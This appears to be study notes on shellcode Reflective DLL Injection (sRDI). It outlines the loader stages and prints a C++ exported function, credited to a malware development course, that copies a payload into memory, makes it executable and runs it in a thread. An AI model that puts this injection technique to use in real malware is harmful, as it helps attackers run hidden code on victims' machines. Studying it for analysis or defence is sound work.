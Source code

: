 ![d7e8f88c063458897d6c78e047819d46.png](../resources/reflectiveloader/1c4adad01b3c492380cf149a1dcd1d41.png)


 ## Shellcode RDI - Shellcode Reflective DLL Injection
This method is useful when we do not have source code to the application. Then with the help of this project, we could convert the target DLL into shellcode and reflectively inject in the memory. The sRDI project loads the DLL, call its entry point and pass the user data to another exported function.
 
 1. Its takes the larger DLL which needs to be loaded into the memory.
 2. Loads the reflective loader on top of it.
 3. Then loads a bootstrap over the reflective loader. The bootstrap is a shellcode which prepares the memory before passing the execution to RDI.
	 1. Bootstrap find the current location in memory.
	 2. Calculates and setup registers.
	 3. Find the execution to RDO, with function hash, user data and location of the target DLL.
 4. RDI Unpack the DLL and remap the sections.
 5. RDI calls DLL Main.
 6. Call exported function via Hash name (RDI) (optional)
 7. Pass user data to exported function ( optional)

Next section demonstrates the working of this tool. Note that following example is part of Sektor7 institute's malware development course.

This program is part of a larger DLL source code, the following is an **exported** function called `Go` which injects a payload into the memory.

```cpp
extern "C" __declspec(dllexport) void Go(void) {

    void * exec_mem;
    BOOL rv;
    HANDLE th;
    DWORD oldprotect = 0;
		unsigned int payload_len = sizeof(payload);
		exec_mem = VirtualAlloc(0, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
		RtlMoveMemory(exec_mem, payload, payload_len);
		rv = VirtualProtect(exec_mem, payload_len, PAGE_EXECUTE_READ, &oldprotect);

	if ( rv != 0 ) {
					th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE) exec_mem, 0, 0, 0);
					WaitForSingleObject(th, -1);
	}

}
```
